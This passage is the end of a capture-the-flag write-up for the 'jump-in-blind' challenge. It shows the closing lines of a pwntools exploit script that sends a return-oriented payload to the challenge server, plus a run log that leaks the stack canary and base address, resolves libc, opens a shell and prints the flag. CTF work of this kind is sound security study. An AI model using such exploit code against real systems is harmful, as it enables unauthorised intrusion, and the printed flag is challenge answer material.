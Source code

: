 ```python
  r.sendafter(b'>> ', ret)
  r.interactive()
  return 0

if __name__ == "__main__":
  r = remote(HOST, PORT)
  while main():
    r.close()
    log.info('Trying again')
    print()
    r = remote(HOST, PORT)
```

Below we needed 3 tries, where the two first had insufficient buffer sizes, but notice that other problems can occur as mentioned (canary/base leak and pattern finding - see code):

```
$ python doit.py
[+] Opening connection to jump-in-blind.hack.fe-ctf.dk on port 1337: Done
[*] Possible binary ptr: 0x55d21b1c4120
[*] Canary: 0x3532fe86655fad00
[!] No ELF provided.  Leaking is much faster if you have a copy of the ELF being leaked.
[+] Finding base address: 0x55d21b1c3000
[-] Overflow is not sufficient
[*] Closed connection to jump-in-blind.hack.fe-ctf.dk port 1337
[*] Trying again

[+] Opening connection to jump-in-blind.hack.fe-ctf.dk on port 1337: Done
[*] Possible binary ptr: 0x556cefbef629
[*] Canary: 0x82b594e46e276200
[+] Finding base address: 0x556cefbee000
[-] Overflow is not sufficient
[*] Closed connection to jump-in-blind.hack.fe-ctf.dk port 1337
[*] Trying again

[+] Opening connection to jump-in-blind.hack.fe-ctf.dk on port 1337: Done
[*] Possible binary ptr: 0x55f45038b120
[*] Canary: 0x7557f9c76fcede00
[+] Finding base address: 0x55f45038a000
[+] Resolving 'libc.so': 0x7fc305e35180
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA$ ls
assets
chal_base.c
generator.py
$ cat /flag
flag{1_h0p3_y0u_d1dn7_r0p_7h3_B1n4ry!}
$
```

Whoops.. Well, we did rop the binary. My first approach which did not rely on rop did however not work.
